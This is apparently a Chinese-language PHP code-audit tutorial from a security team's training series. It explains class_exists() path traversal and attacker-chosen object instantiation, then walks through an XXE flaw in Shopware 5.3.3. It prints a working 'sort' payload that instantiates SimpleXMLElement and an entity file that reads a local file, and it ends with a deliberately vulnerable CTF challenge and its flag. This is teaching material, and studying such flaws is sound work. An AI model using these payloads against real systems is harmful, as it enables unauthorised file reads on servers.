






本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 **PHP-Audit-Labs** 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第3篇** 代码审计文章：

## Day 3 - Snow Flake

题目叫做雪花，代码如下：



**漏洞解析** ：

这段代码中存在两个安全漏洞。第一个是文件包含漏洞，上图第8行中使用了 **class_exists()** 函数来判断用户传过来的控制器是否存在，默认情况下，如果程序存在 **__autoload** 函数，那么在使用 **class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件内容，我们来看一下PHP手册对 **class_exists()** 函数的定义：

>[ class_exists ](http://php.net/manual/zh/function.class-exists.php) ：(PHP 4, PHP 5, PHP 7)
>
>**功能** ：检查类是否已定义
>
>**定义** ： `bool class_exists ( string $class_name[, bool $autoload = true ] )` 
>
>**$class_name** 为类的名字，在匹配的时候不区分大小写。默认情况下 **$autoload** 为 **true** ，当 **$autoload** 为 **true** 时，会自动加载本程序中的 **__autoload** 函数；当 **$autoload** 为 **false** 时，则不调用 **__autoload** 函数。

我们再来说说第二个漏洞。在上图第9行中，我们发现实例化类的类名和传入类的参数均在用户的控制之下。攻击者可以通过该漏洞，调用PHP代码库的任意构造函数。即使代码本身不包含易受攻击的构造函数，我们也可以使用PHP的内置类 **SimpleXMLElement** 来进行 **XXE** 攻击，进而读取目标文件的内容，甚至命令执行（前提是安装了PHP拓展插件expect），我们来看一下PHP手册对 **SimpleXMLElement** 类的定义：

>[SimpleXMLElement](http://php.net/manual/zh/class.simplexmlelement.php) ：(PHP 5, PHP 7)
>
>**功能** ：用来表示XML文档中的元素，为PHP的内置类。

关于 **SimpleXMLElement** 导致的XXE攻击，下面再给出一个demo案例，方便大家理解：



## 实例分析

本次实例分析，我们选取的是 **Shopware 5.3.3** 版本，对 **SimpleXMLElement** 类导致的 **XXE漏洞** 进行分析，而 **class_exists()** 函数，我们将会在本次给出的CTF题目中深入讨论。我们来看一下本次漏洞的文件，在 **engine\Shopware\Controllers\Backend\ProductStream.php** 文件中有一个 **loadPreviewAction** 方法，其作用是用来预览产品流的详细信息，具体代码如下：



该方法接收从用户传来的参数 **sort** ，然后传入 **Repository** 类的 **unserialize** 方法（如上图第11-14行代码），我们跟进 **Repository** 类，查看 **unserialize** 方法的实现。该方法我们可以在 **engine\Shopware\Components\ProductStream\Repository.php** 文件中找到，代码如下：



可以看到 **Repository** 类的 **unserialize** 方法，调用的是 **LogawareReflectionHelper** 类的 **unserialize** 方法（如上图第5行代码），该方法我们可以在 **engine\Shopware\Components\LogawareReflectionHelper.php** 文件中找到，具体代码如下：



这里的 **$serialized** 就是我们刚刚传入的 **sort** （上图第3行），程序分别从 **sort** 中提取出值赋给 **$className** 和 **$arguments** 变量，然后这两个变量被传入 **ReflectionHelper** 类的 **createInstanceFromNamedArguments** 方法。该方法位于 **engine\Shopware\Components\ReflectionHelper.php** 文件，具体代码如下：


这里我们关注 **第6行** 代码，这里创建了一个反射类，而类的名称就是从 **$sort** 变量来的，可被用户控制利用。继续往下看，在代码第28行处用 **$newParams** 作为参数，创建一个新的实例对象。而这里的  **$newParams** 是从 **$arguments[\$paramName]** 中取值的， **$arguments** 又是我们可以控制的，因为也是从 **$sort** 变量来，所以我们可以通过这里来实例化一个 **SimpleXMLElement** 类对象，形成一个XXE漏洞。下面，我们来看看具体如何利用这个漏洞。

## 漏洞利用

首先，我们需要登录后台，找到调用 **loadPreviewAction** 接口的位置，发现其调用位置如下：


当我们点击 **Refresh preview** 按钮时，就会调用 **loadPreviewAction** 方法，用BurpSuite抓到包如下：

```http
GET /shopware520/backend/ProductStream/loadPreview?_dc=1530963660916&sort={"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}&conditions={}&shopId=1&currencyId=1&customerGroupKey=EK&page=1&start=0&limit=2 HTTP/1.1
Host: localhost
X-CSRF-Token: IKiwilE7pecuIUmEAJigyg6fVXY6vR
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: */*
Referer: http://localhost/shopware520/backend/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHOPWAREBACKEND=78ghtddjn8n8efpv1cudj6eao0; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; goods[cart]=180615151154565652; XDEBUG_SESSION=PHPSTORM
Connection: close
```

我们可以看到 **sort** 值为 `{"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}` ,于是我们按照其格式构造payload： `{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}` ，关于payload的含义，可以看看 **SimpleXMLElement** 类的 **__construct** 函数定义，具体点 [这里](http://php.net/manual/zh/simplexmlelement.construct.php) 

```php
final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
```

笔者所用的xxe.xml内容如下：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE ANY [ 
     <!ENTITY xxe SYSTEM "file:///C:/phpStudy/PHPTutorial/WWW/flag.txt">
]>
<x>&xxe;</x>
```

我们发送payload，并用xdebug调试程序，最后程序将我们读取的值存储在 **$conditions** 变量中，如下图所示：



## 修复建议

关于PHP中XXE漏洞的修复，我们可以过滤关键词，如： **ENTITY** 、 **SYSTEM** 等，另外，我们还可以通过禁止加载XML实体对象的方式，来防止XXE漏洞（如下图第2行代码），具体代码如下：


## 结语

看完了上述分析，不知道大家是否对 **XXE攻击** 有了更加深入的理解，文中用到的CMS可以从 [这里](http://releases.s3.shopware.com.s3.amazonaws.com/install_5.3.3_0e50204087219ada9cdd9a74cd17cbb264e8c0a4.zip?_ga=2.21910011.1134495119.1530714243-2059409569.1530714243) 下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day3** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：

```php
// index.php
<?php
class NotFound{
    function __construct()
    {
        die('404');
    }
}
spl_autoload_register(
	function ($class){
		new NotFound();
	}
);
$classname = isset($_GET['name']) ? $_GET['name'] : null;
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
	$newclass = new $classname($param,$param2);
	var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```

```php
// f1agi3hEre.php
<?php
$flag = "HRCTF{X33_W1tH_S1mpl3Xml3l3m3nt}";
?>
```

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！

## 相关文章

[Shopware 5.3.3: PHP Object Instantiation to Blind XXE](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)